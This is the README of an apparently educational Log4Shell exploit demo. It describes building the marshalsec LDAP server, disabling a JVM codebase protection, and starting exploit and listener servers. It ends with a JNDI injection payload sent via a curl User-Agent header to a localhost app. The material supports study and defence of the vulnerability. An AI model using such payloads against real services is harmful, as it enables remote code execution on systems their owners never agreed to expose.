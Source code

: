 ## Log4Shell Exploit Demo

🛑 _Code in this repo should be used for educational purposes only!_ 🛑  
🛑 _Do not use these attacks against services which are not under your control!_ 🛑

_Please see [references](#References) for initiating repos with Python samples and further information._

## Purpose

This repo mixes code from repos mentioned in the [references](#References) section to facilitate single language and tech stack (Java/Spring) demo of the exploit. To replay the demo, only Java and Maven have to be installed, though an IDE is recommended.

## Prerequisites

* Java 8+ (for Java8u191+ and Java 11.0+ see _Start_ Todos below)
* Maven 3+
* (Opt.) IntelliJ or Eclipse

## Setup

### Install LDAP Ref Lib locally

* Clone https://github.com/mbechler/marshalsec
* Uncomment the `<artifactId>maven-assembly-plugin</artifactId>` in `pom.xml`
* Install library to local Maven Repo with `mvn clean install`

## Run Demo

### Start Web Application with vulnerable Log4j

* With Java 11 or Java8u191+ (for other Java SDKs see [here](https://www.geekyhacker.com/2021/12/11/three-ways-to-patch-log4shell-cve-2021-44228-vulnerability/)), in Run Configuration, Add VM option `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true`

### Start Exploit & LDAP Servers

* Run `L4sexploitApplication`

### Start Socketlistener

* Run `ExploitServer`

### Call Exploit

* Call `curl -A '${jndi:ldap://localhost:1389/a}' http://localhost:9090/`

### References

* Log4Shell-POC: https://github.com/kozmer/log4j-shell-poc
* Web Appication: https://github.com/korteke/log4shell-demo
* LDAP Serialization Hack: https://github.com/mbechler/marshalsec

### To use locally generated marshalsec Maven Artifact

```xml
<dependency>
  <groupId>org.eenterphace.mbechler</groupId>
  <artifactId>marshalsec</artifactId>
  <version>0.0.3-SNAPSHOT</version>
</dependency>
```

### It does not work

* Did you add `-Dcom.sun.jndi.ldap.object.trustURLCodebase=true` for newer Java SDKs?
* Did you install the *marshalsec* JAR in your local Maven repo?
* Did you remove/uncomment the assembly Maven plugin when building *marshalsec* JAR?
